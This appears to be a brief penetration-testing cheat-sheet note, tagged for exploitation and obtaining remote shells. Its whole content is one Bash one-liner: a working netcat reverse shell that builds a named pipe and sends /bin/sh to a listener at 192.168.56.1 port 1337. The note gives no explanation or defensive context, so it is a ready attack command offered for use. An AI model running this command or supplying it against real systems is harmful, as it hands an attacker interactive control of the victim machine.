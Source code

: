 ```yaml
---
tags:
  - Exploitation
  - ObtainingRemoteShells
  - SpecificShells
---
```



# Bash Example

```
mkfifo /tmp/grpoa; nc 192.168.56.1 1337 0</tmp/grpoa | /bin/sh >/tmp/grpoa 2>&1; rm /tmp/grpoa
```